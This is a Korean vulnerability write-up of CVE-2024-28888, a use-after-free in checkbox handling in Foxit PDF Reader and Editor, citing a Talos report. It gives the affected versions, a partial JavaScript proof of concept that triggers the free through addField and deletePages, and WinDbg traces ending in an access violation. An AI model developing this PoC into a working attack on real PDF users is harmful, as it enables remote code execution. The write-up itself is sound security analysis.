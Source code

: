 ```yaml
---
title: "[하루한줄] CVE-2024-28888: Foxit Reader의 Use-after-free로 인한 Remote Code Execution"
author: hunjison
tags: [Foxit Reader, Use-after-free, hunjison]
categories: [1day1line]
date: 2024-11-16 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- https://www.talosintelligence.com/vulnerability_reports/TALOS-2024-1967

## Target

- Foxit PDF Editor 버전: 2024.X(포함) ~ 2024.2.3.25184(포함) (Windows)
- Foxit PDF Editor 버전: 2023.X(포함) ~ 2023.3.0.23028(포함) (Windows)
- Foxit PDF Reader 버전: ~ 2024.2.3.25184(포함) (Windows)
- Foxit PDF Editor 버전: 2024.X(포함) ~ 2024.2.3.64402(포함) (macOS)
- Foxit PDF Editor 버전: 2023.x(포함) ~ 2023.3.0.63083(포함) (macOS)
- Foxit PDF Reader 버전: ~ 2024.2.2.64388(포함) (macOS)
- Foxit PDF Editor 버전: 13.x(포함) ~ 13.1.2.62201(포함) (macOS)
- Foxit PDF Editor 버전: 12.x(포함) ~ 12.1.5.55449(포함) (macOS)
- Foxit PDF Editor 버전: ~ 11.1.9.0524(포함) (macOS)
- Foxit PDF Editor 버전: 13.X(포함) ~ 13.1.3.22478(포함) (Windows)
- Foxit PDF Editor 버전: 12.X(포함) ~ 12.1.7.15526(포함) (Windows)
- Foxit PDF Editor 버전: ~ 11.2.10.53951(포함) (Windows)

## Explain

Foxit PDF Reader는 V8 JavaScript 엔진을 이용해 Interactive PDF 기능을 지원합니다. Interactive PDF란 클릭 가능한 링크, 버튼, 양식 필드, 오디오, 비디오 및 기타 요소가 포함된 PDF 파일입니다.

Foxit PDF Reader가 checkbox 오브젝트를 관리할 때 Use-After-Free 취약점이 존재합니다. 아래 PoC 코드에서 `delete_pages()` 콜백 함수는 2번째 `addField()` 함수가 실행될 때 트리거됩니다. Use-after-free 취약점은 checkbox 오브젝트가 `deletePages()`에 의해 free된 이후 검증 없이 재사용될 때에 발생합니다.

```jsx
function main() { 

 var aa = app.activeDocs[0].addField("ADD", "checkbox", 2, [17,0,5,14] ).defaultIsChecked(0);

 getField("txt3").setAction("Calculate",'delete_pages();'); 

 app.activeDocs[0].addField("ADD", "checkbox", 0, [17,0,5,14] ) ; 
 
 // 이후 checkbox object가 재사용될 때 use-after-free 취약점 발생함
 // 재사용하는 부분 PoC 코드 정확하게 공개되지 않음

}

function delete_pages(arg1, arg2, arg3) { 

  app.activeDocs[0].deletePages();  
  app.activeDocs[0].deletePages();  

}
```

`addField()` 함수가 실행된 이후 생성된 취약한 버퍼(`0x18bbf0e0`)는 다음과 같습니다.

```
0:000> p
eax=18babf00 ebx=076fe0dc ecx=175db036 edx=00000001 esi=00000002 edi=16426750
eip=01b0fc8b esp=076fdcfc ebp=076fdd50 iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200202
FoxitPDFReader!std::basic_ostream<char,std::char_traits<char> >::operator<<+0x5069db:
01b0fc8b 8bf8            mov     edi,eax
0:000> dd eax
18babf00  0c8cb610 18bbf0e0 18bbf0b0 00000000
18babf10  00000000 00000000 00000000 00000000
18babf20  00000000 00000000 00000000 00000000
18babf30  00000000 00000000 00000000 00000000
18babf40  00000000 00000000 00000000 00000000
18babf50  00000000 00000000 00000000 00000000
18babf60  00000000 00000000 00000000 00000000
18babf70  00000000 00000000 00000000 00000000
0:000> dd 18bbf0e0                        ;<----------------------------------- (3)
18bbf0e0  00000003 00000000 0c8cb610 18bbf0b0
18bbf0f0  00000000 18b92af8 00000001 00000001
18bbf100  00000000 00000004 00000000 00000000
18bbf110  00000000 18bb7c08 18bb7c20 18bb7c38
18bbf120  18bb7c50 18bbe280 18bbe2a0 18bb7c68
18bbf130  18bbe2c0 18bb7c80 18ba1c78 18bbe2e0
18bbf140  18bb7c98 18bb7cb0 18bb7cc8 18bb7ce0
18bbf150  18bb7cf8 18bb7d10 18bb7d28 18bb7d40
```

해당 버퍼는 `deletePages()` 함수가 실행된 이후 다음과 같이 할당이 해제됩니다. (8)은 할당된 상태, (9)는 할당이 해제된 상태를 각각 나타냅니다.

```
0:000> dd esi                                   ;<----------- (8)
18bbf0e0  00000003 00000000 0c8cb610 1c789aa0  
18bbf0f0  00000000 18b92af8 00000000 00000002
18bbf100  00000000 00000004 00000000 00000000
18bbf110  00010006 18bbf0b0 00000000 00000000
18bbf120  00000000 1c7711a0 00000010 00000002
18bbf130  18bb9cbc 18bb9c98 0000000a 18bbe2e0
18bbf140  00010006 18bbf0b0 00000000 00000000
18bbf150  00000000 1c7711e0 00000010 00000001
0:000> p
eax=00000000 ebx=076fcfe4 ecx=175da3be edx=075dd000 esi=18bbf0e0 edi=0c8cb610
eip=01ed24bf esp=076fcf6c ebp=076fcfc4 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200206
FoxitPDFReader!safe_vsnprintf+0x37768f:
01ed24bf 83c404          add     esp,4
0:000> dd esi                                  ;<----------- (9)
18bbf0e0  00000000 00000000 0c8cb610 1c789aa0
18bbf0f0  00000000 18b92af8 00000000 00000002
18bbf100  00000000 00000004 00000000 00000000
18bbf110  00010006 18bbf0b0 00000000 00000000
18bbf120  00000000 1c7711a0 00000010 00000002
18bbf130  18bb9cbc 18bb9c98 0000000a 18bbe2e0
18bbf140  00010006 18bbf0b0 00000000 00000000
18bbf150  00000000 1c7711e0 00000010 00000001
```

Checkbox 오브젝트는 할당이 해제된 이후 `bytestring` 오브젝트에 의해 재할당됩니다. 다음과 같이 동일한 주소(`0x18bbf0e0`)에 새로운 객체가 할당된 것을 확인할 수 있습니다.

```
0:000> p
eax=ffffffff ebx=076fe0dc ecx=18bbf0e0 edx=075dd000 esi=00000001 edi=1c777df0
eip=01b10022 esp=076fdcf8 ebp=076fdd50 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200206
FoxitPDFReader!std::basic_ostream<char,std::char_traits<char> >::operator<<+0x506d72:
01b10022 e849573d00      call    FoxitPDFReader!safe_vsnprintf+0x38a940 (01ee5770)
0:000> dd ecx                                       <------------------------ (10)
18bbf0e0  00000000 0000001f 0000001f 62626952
18bbf0f0  435f6e6f 67657461 5f79726f 74736f50
18bbf100  6e616353 6974704f 00736e6f 00000000
18bbf110  00010006 18bbf0b0 00000000 00000000
18bbf120  00000000 1c7711a0 00000010 00000002
18bbf130  18bb9cbc 18bb9c98 0000000a 18bbe2e0
18bbf140  00010006 18bbf0b0 00000000 00000000
18bbf150  00000000 1c7711e0 00000010 00000001
0:000> db ecx L28
18bbf0e0  00 00 00 00 1f 00 00 00-1f 00 00 00 52 69 62 62  ............Ribb
18bbf0f0  6f 6e 5f 43 61 74 65 67-6f 72 79 5f 50 6f 73 74  on_Category_Post
18bbf100  53 63 61 6e 4f 70 74 69   
```

Checkbox 오브젝트가 재사용될 때 ‘버퍼 주소(`0x18bbf0e0`) + 0xc’에 위치한 값(`0x62626952`)이 `this` 객체 (여기에서는 `esi` 레지스터)로 전달됩니다.  원래 checkbox 오브젝트에서 해당 값은 포인터였으나, 할당이 해제되면서 `0x62626952` 값을 가지기 때문에 Access violation이 발생합니다.

```
0:000> p
(21e8.21f4): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=000008e0 ebx=00000000 ecx=00000066 edx=00000000 esi=62626962 edi=076fdcc4
eip=02124612 esp=076fdc7c ebp=076fdc84 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00210246
FoxitPDFReader!safe_vsnprintf+0x5c97e2:
02124612 f77608          div     eax,dword ptr [esi+8] ds:002b:6262696a=????????
```

공격자는 checkbox 오브젝트를 할당 해제한 이후, `bytestring` 오브젝트를 할당할 수 있으며, 이는 잠재적으로 임의 주소에 대한 읽기, 쓰기가 가능할 수 있습니다. 이러한 가능성은 원격 코드 실행(Remote Code Execution)으로 이어질 수 있습니다.

## Reference

- https://nvd.nist.gov/vuln/detail/CVE-2024-28888